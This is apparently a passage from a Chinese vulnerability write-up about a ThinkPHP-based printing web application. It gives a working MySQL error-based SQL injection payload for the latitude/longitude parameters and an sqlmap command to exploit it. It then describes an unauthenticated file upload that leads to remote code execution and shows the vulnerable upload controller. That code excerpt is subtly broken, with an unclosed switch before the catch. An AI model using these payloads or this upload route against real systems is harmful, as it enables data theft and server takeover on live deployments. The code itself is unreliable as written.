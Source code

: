 ```

latitude=1&longitude=GTID_SUBSET(CONCAT((MID((IFNULL(CAST(CURRENT_USER() AS NCHAR),0x20)),1,190))),9392)
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5duuuJAFpJIFYqG1ffXXkRmFenCTZdmkuTHmRap2icbhHAOoH2IX2o1anoWjc0u81f6kQCLSyqmzXA/640?wx_fmt=png&from=appmsg "")  
  
**python sqlmap.py -r a.txt --level=3 --dbms=mysql**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5duuuJAFpJIFYqG1ffXXkRmg2pv8vtZg6kicYj53OmOiaddoDlhgibRtExo5HT8luUm3IbTOZxpg4bbg/640?wx_fmt=png&from=appmsg "")  
## 0x02 前台任意文件上传漏洞(RCE)  
  
**位于 /xxxx/controller/xxxxx.php 控制器中的file方法通过file()函数获取文件，并通过 putFile() 函数 直接将文件写入到/sxxxxx/ 目录中，然后传入 proxxx=xxxxx 进入该分支即可得到上传文件的地址.**  
```
/**
* 处理上传文件.
*
* @return \think\response\Json
*/
public function xxxx()
{
    $file = request()->file('file');
    $page_type = input('param.page_type', 1, 'intval');
    $print_type = input('param.print_type', 1, 'intval');
    $filename = input('param.filename', $file->getOriginalName(), 'trim');
    $doc_type = input('param.doc_type', 1, 'intval');
    $printer_id = input('param.printer_id');
    //文件处理流程
    /**
         * 1.none 不处理
         * 2.id_card 身份证：不插入数据库，正反面都上传完成后，用户点击完成时合并图片，保存到打印列表
         * 3.c1 1寸照片
         * 4.c1x 大1寸照片
         * 5.c2
         * 6.c2x
         * 7.photo.
         */
    $process = input('param.process', 'none', 'trim');
    try {
      $savename = Filesystem::disk('public')->putFile('', $file);
      $root = config('filesystem.disks.public.root');
      $domain = config('filesystem.disks.public.url');
      switch ($process) {
        case 'xxx_xxxxx':
        $savename = Config::get('filesystem.disks.public.url').'/'.$savename;
        $return = [
          'code' => 0,
          'data' => ['savename' => $savename],
          ];
      } catch (ValidateException $e) {
      $return = [
        'code' => 1,
        'msg' => $e->getMessage(),
        ];
    }

    $return['printer_list'] = $this->printerList();

    return json($return);
  }
```  
  